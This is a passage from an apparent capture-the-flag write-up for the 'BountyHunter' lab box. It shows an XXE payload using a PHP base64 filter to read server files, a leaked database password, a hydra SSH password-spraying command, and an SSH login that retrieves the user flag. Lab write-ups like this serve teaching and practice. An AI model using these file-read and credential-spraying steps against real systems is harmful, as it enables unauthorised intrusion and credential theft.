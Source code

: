 Next we try to retrieve the `portal.php` file using our XXE vulnerability but
the file seems to be empty (which we know it is not). We use a
[PHP filter](https://pentestbook.six2dez.com/enumeration/web/xxe) to
load the file with the following payload:

    :::text
    <?xml  version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=./portal.php"> ]>
        <bugreport>
        <title>&xxe;</title>
        <cwe>11</cwe>
        <cvss>11</cvss>
        <reward>11</reward>
        </bugreport>

We get the file but it does not contain anything interesting. We retrieve the
db.php file using the same method:

    :::php
    <?php
    // TODO -> Implement login system with the database.
    $dbserver = "localhost";
    $dbname = "bounty";
    $dbusername = "admin";
    $dbpassword = "m19RoAU0hP41A1sTsq6K";
    $testuser = "test";
    ?>

We got the database to be password.
We create a list of user form the `/etc/passwd` file and add the `bounty`,
`admin` and `test` users to the list and launch `hydra` against the SSH service.

    :::text
    └─$ hydra ssh://10.129.73.239 -L users -p m19RoAU0hP41A1sTsq6K
    <SNIP>
    [22][ssh] host: 10.129.73.239   login: development   password: m19RoAU0hP41A1sTsq6K
    1 of 1 target successfully completed, 1 valid password found

We can now connect to the box using the `developement` user and grab the user
flag.

    :::text
    └─$ ssh development@10.129.73.239 #m19RoAU0hP41A1sTsq6K
    development@10.129.73.239's password:
    <SNIP>
    development@bountyhunter:~$ id
    uid=1000(development) gid=1000(development) groups=1000(development)
    development@bountyhunter:~$ cat user.txt
    f737187566092403094c901b3ffe6117

# Root

Our `development` user has the permissions to run a specific home made
python script as root.
